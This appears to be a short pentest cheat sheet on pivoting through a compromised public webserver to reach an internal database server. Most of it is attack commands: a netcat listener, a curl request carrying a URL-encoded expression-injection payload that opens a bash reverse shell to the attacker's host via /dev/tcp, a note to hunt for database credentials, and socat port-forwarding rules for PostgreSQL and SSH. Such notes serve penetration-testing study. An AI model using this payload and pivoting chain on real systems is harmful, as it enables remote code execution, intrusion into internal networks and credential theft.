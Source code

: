 ## Table of contents
- [Simple Port Forwading](#Simple-Port-Forwading)

# Simple Port Forwading

Scenario:
 - external attacker machine
 - vulnerable public webserver (RCE)
 - internal database server, same sebserver's network

+- WAN ------------+    +- DMZ -------------------------------+
|                  |    |                                     |
|   [ ATTACKER ]   |    |   [ VULN-PUBLIC-SRV ]  [ DB-SRV ]   |
|                  |    |                                     |
+------------------+    +-------------------------------------+

``` bash
# open a listener on the attacker machine
nc -nvlp 1337

# exploit the webserver with a reverse shell command
curl http://$TARGET:$PORT/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/$ATTACKER/$PORT%200%3E%261%27%29.start%28%29%22%29%7D/

# check the network configuration
# search for interesting information: webapp configuration, db credentials, ...
ip add
ip route
```

Port forwarding with socat:
 - the NAT configuration must be 1:1
 - socat must be installed on the target machine

+- WAN ------------+    +- DMZ -------------------------------+
|                  |    |                                     |
|   [ ATTACKER ]   |    |   [ VULN_PUBLIC_SRV ]  [ DB_SRV ]   |
|                ========== LISTEN 2345 ======== FRW 5432     | ==> for PgSQL
|                ========== LISTEN 2222 ======== FRW 22       | ==> for SSH
+------------------+    +-------------------------------------+

``` bash
socat -add TCP-LISTEN:2345,fork TCP:$DB_SRV:5432
```

Connect to DB_SRV from ATTACKER via VULN_PUBLIC_SRV:
``` bash
psql -h VULN_PUBLIC_SRV -p 2345 -U $user
```